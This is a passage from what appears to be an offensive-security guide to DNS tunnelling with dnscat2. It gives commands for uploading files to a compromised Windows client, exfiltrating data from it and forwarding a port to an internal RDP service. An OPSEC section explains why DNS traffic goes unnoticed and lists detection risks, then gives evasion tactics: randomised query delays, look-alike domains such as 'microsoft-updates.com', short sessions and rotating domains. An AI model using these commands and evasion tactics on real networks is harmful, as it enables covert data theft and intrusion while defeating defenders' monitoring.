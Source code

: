 ### **File Transfer Through DNS**
```bash
# On dnscat2 server session
exec (client) 1> upload /local/file.txt C:\Windows\temp\file.txt

# Download file from client
exec (client) 1> download C:\Windows\temp\data.txt /tmp/exfiltrated.txt
```

### **Port Forwarding via DNS**
```bash
# Forward local port through DNS tunnel
dnscat2> set type=bind
dnscat2> set bind_host=127.0.0.1
dnscat2> set bind_port=8080
dnscat2> set target_host=172.16.5.19
dnscat2> set target_port=3389
```

---

## **8. Operational Security (OPSEC)**

### **Stealth Considerations**
1. **DNS Traffic Appears Normal** - blends with legitimate queries
2. **Encrypted Communication** - data protection
3. **Low Volume Traffic** - doesn't trigger bandwidth alerts
4. **Standard Port Usage** - port 53 is always allowed
5. **Protocol Abuse** - uses expected DNS behavior

### **Detection Risks**
1. **Unusual DNS Query Patterns** - high frequency to single domain
2. **TXT Record Analysis** - suspicious content in DNS responses
3. **DNS Traffic Volume** - excessive DNS queries
4. **Domain Reputation** - malicious domain detection
5. **Timing Analysis** - regular query intervals

### **Mitigation Strategies**
```bash
# Vary query timing
--delay 1000,5000  # Random delay between queries

# Use legitimate-looking domains
--domain microsoft-updates.com

# Limit session duration
# Connect, execute, disconnect quickly

# Rotate domains
# Use multiple domains for different sessions
```

---